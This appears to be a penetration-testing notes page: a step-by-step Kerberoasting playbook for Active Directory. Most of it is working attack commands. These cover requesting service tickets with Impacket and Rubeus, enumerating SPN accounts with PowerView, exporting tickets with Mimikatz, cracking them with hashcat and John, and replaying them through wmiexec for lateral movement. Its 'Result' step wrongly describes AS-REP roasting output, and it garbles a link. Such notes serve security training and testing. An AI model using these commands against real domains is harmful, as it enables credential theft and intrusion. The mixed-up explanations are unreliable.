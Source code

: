 # Kerberoasting
This attack targets [Service Principal Names (SPN)](https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.
## **Perform Kerberoasting on Kali:**

**Command Syntax**: Use the following command to request the **TGS** (Ticket Granting Server) and capture the TGS-REP hash:
    
```bash
impacket-GetUserSPNs -request -dc-ip <DomainController_IP>  -outputfile <output_file> <Domain/User>
```
- **-request** to obtain the TGS
Example:
``` shell
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.50 corp.com/ahmed
```
HashShape
```
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$9b161bcb9f98f19b.......a85ee4
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in [[Hashcat]] format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## **Perform Kerberoasting on Windows (joined domain):**
By using use [Rubeus]([https://github.com/GhostPack/Rubeus](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/tree/main/Tools/GhostPack-Compiled%20Binaries)) 

``` powershell
.\Rubeus.exe kerberoast /nowrap
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast /nowrap
```
### Using PowerView to Extract TGS Tickets

``` powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
`Results`
```powershell-session
samaccountname
--------------
krbtgt
userb
```
### Using PowerView to Target a Specific User
```powershell
Get-DomainUser -Identity userb | Get-DomainSPNTicket -Format Hashcat
```

**Remove all spaces and lines in a file:**
``` shell
tr -d '[:space:]' < input_file > output_file
```
**Exporting All Tickets to a CSV File**
```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\domain_tgs.csv -NoTypeInformation
```
### Extracting Tickets from Memory with Mimikatz
``` mimikatz
mimikatz # base64 /out:true
mimikatz # kerberos::list /export 
```
If we extract only `.kirbi` files and this will happen if we run `mimikatz` automatically without `base64 /out:true` 
##### ---> On kali <---
#### Extract Hashes from `.kirbi` Tickets
``` shell
python3 kirbi2john.py ticket.kirbi > hash.txt
john hash.txt --wordlist=/path/to/wordlist.txt
```
**With Hashcat:** Use Kerberos Ticket Hash mode `13100`:
``` shell
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
### Replay Tickets with Impacket
##### 1. Convert .kirbi to CCache
``` shell
python3 /usr/share/doc/python3-impacket/examples/ticketConverter.py ticket.kirbi ticket.ccache
```
##### 2. Set Environment Variable for Replay 
If you plan to use the ticket for further lateral movement or pass-the-ticket attacks, set the `KRB5CCNAME` environment variable:
``` shell
export KRB5CCNAME=/path/to/ticket.ccache
```
If you intend to replay the `.kirbi` ticket instead of cracking it, Impacket’s `psexec.py` or `wmiexec.py` can be used.
``` shell
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass DOMAIN/USERNAME@TARGET
```
- The `-k` flag uses the Kerberos ticket.


### On BloodHound we notice it as:

![image](https://github.com/user-attachments/assets/1d4eab33-897d-44a5-b4d3-68aee8275292)
